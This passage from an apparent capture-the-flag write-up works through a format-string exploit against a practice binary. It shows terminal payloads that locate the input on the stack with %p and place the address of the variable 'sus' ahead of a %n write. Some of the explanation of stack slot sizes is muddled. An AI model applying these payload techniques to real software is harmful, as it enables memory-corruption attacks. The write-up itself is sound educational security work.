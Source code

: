- The input is on the 9th of the stack but in 64-bit the first 5 places of the stack are registers.

- So the input is actually on the 14th position of the stack.

3. Crafting payload

- First, verify the stack location of the input using `%p`.

```terminal
$ echo 'AAAAAAAA,%14$p' | ./vuln
You don't have what it takes. Only a true wizard could change my suspicions. What do you have to say?
Here's your input: AAAAAAAA,0x4141414141414141
sus = 0x21737573
You can do better!
```

- `%n` writes the total number of character printed so far to the target.

- So I need to input the address of the variable `sus` on the stack.

```terminal
$ echo '\x60\x40\x40\x00\x00\x00\x00\x00,%14$p' | ./vuln 
You don't have what it takes. Only a true wizard could change my suspicions. What do you have to say?
Here's your input: `@@
sus = 0x21737573
You can do better!
```

- This cannot work somehow, I suspect the problem is on the byte input (Maybe \x00 ?).

- Luckily it works when I inverted the payload.

```terminal
$ echo '%15$p,\x60\x40\x40\x00\x00\x00\x00\x00' | ./vuln
You don't have what it takes. Only a true wizard could change my suspicions. What do you have to say?
Here's your input: 0x40,`@@
sus = 0x21737573
You can do better!
```

- But I expect the output to be 0x404060, the problem occur because `%15$p,` which are 6 bytes fill the stack too (Every stack stores 16 bytes).

```terminal
$ echo '%15$p,AA\x60\x40\x40\x00\x00\x00\x00\x00' | ./vuln
You don't have what it takes. Only a true wizard could change my suspicions. What do you have to say?
Here's your input: 0x404060,AA`@@
sus = 0x21737573
You can do better!
```

- Now the whole payload is 16 bytes so finally 0x404060 is the output.

- So after this I always make the payload multiple of 8 and check using `%p`.
